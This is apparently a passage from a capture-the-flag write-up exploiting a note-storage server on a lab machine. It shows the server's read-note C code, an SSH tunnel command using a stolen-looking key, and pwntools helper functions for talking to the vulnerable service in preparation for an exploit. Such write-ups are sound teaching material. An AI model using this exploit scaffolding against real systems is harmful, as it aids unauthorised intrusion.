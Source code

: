 3. Read note:

```c
// show note
case 3:
	write(sock, note, index);
return;
```

### Dynamic analysis of the server

In order to interact with the server, we have to use SSH to create a tunnel, so we can interact with port 5001.

```bash
root@darkness:~# ssh -i id_rsa Debian-snmp@10.10.10.195 -N -L 5001:127.0.0.1:5001
```

 We can now write some python functions to interact with the server.

```python
# Write data to server
def write_note(io, data):
    # Send command 1 
    io.send("\x01")
    # Send buffer-size (MAX 1 Byte)
    io.send(p8(len(data))) 
    # Send data
    io.send(data)
```

This function will take a connection, the data and optionally a buffer_size as an argument. If no buffer_size is defined, the length of the data will be used as the size. Then it sends the data in the correct format to the server.

``` python
# Show notes or get size amout of the note
def show_note(io, size=0): 
    io.send("\x03")
    if size == 0:    
        data = io.recvall()
    else:
        data = io.recv(size)
    return data
```

This function will take a connection and optionally a size on how much data to receive. If the size is not defined, everything will be read.

Now we just need a connection function.

```python
# Setup io
def startup(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    return remote('localhost', 5001, timeout=5)
```
